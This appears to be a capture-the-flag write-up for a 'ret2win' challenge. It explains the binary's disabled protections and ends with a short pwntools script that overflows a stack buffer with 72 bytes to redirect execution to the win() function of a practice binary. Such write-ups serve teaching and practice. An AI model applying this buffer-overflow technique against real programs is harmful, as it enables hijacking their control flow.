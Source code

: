 # Description:

Ret2win_easy

# Solution

According to file `vuln.c` and the name of the challenge. We know it as [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/d463e963-4dc9-4e54-a00e-1485af6436b0)

Use checksec to check various security features of executable files as bellow.

![image](https://github.com/N1GHT-F4LL/CTF/assets/60804710/d2e21fb8-5d4f-4e7f-aac6-32ca4435dbcd)

With security features mostly turned off making this exploit easier.

With no PIE, address of win() address is always `0x00401156`.

The final step is to insert the required amount of bytes and overwrite the RIP register and get the point.

``` python
from pwn import *

e = ELF('./vuln')
p=process(e.path)
gdb.attach(p, '''
b* win + 30
''')
winAddr = p64(e.sym['win']+8)
ofset = 72
payload = b'A'*ofset+winAddr
p.sendline(payload)
p.interactive()
```
